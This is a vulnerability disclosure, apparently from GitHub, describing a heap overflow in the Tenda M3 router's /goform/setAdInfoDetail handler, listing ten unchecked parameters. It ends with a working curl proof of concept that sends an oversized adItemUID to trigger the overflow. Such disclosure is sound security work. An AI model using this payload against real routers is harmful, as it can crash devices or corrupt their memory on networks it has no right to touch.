




# Tenda M3 setAdInfoDetail Heap Overflow

## Description

The **formSetAdInfoDetail** handler in `/bin/httpd` is vulnerable to multiple heap overflows due to the absence of user input sanitization and bounds checking on parameters **adName**, **smsPassword**, **smsAccount**, **weixinAccount**, **weixinName**, **smsSignature**, **adRedirectUrl**, **adCopyRight**, **smsContent**, and **adItemUID**.

## Details

*   **Vendor**: Tenda

*   **Product**: Tenda M3

*   **Firmware Version**: V1.0.0.13(4903)_CN&EN

*   **Firmware Download**: https://www.tendacn.com/material/show/104888

*   **Component**: `/goform/setAdInfoDetail` (formSetAdInfoDetail handler)

*   **Vulnerability Type**: Heap-based Buffer Overflow (CWE-122) and Memory Corruption (CWE-119)

*   **CVE ID**: Requested

*   **Reported by**: Charbel


## PoC

Here are the request params that the handler expects



And here is the `malloc()` call which allocates the heap block where the overflows take place. We can see the first vulnerable `memcpy()` call (highlighted)



Moving further down, we can see the rest of the vulnerable `memcpy()` calls which copy the request params into the allocated heap block without any bounds checking. There are 10 injection points (listed above in the Description)




Now we can send a POST request to the `/goform/setAdInfoDetail` endpoint to trigger the heap overflow in `formSetAdInfoDetails`

```
curl -X POST http://172.16.182.130/goform/setAdInfoDetail -d "action=add" -d "adItemUID=$(python3 -c 'print("A"*100000)')" -d "adStyle=1" -d "adName=test" -d "adRedirectUrl=http://test.com" -d "adCopyRight=test" -d "adAuth=111111" -d "smsProvider=test" -d "smsAccount=test" -d "smsPassword=test" -d "smsSignature=test" -d "smsContent=test" -d "weixinAccount=test" -d "weixinName=test" -d "adLogo=test" -d "weixinPic=test"
```


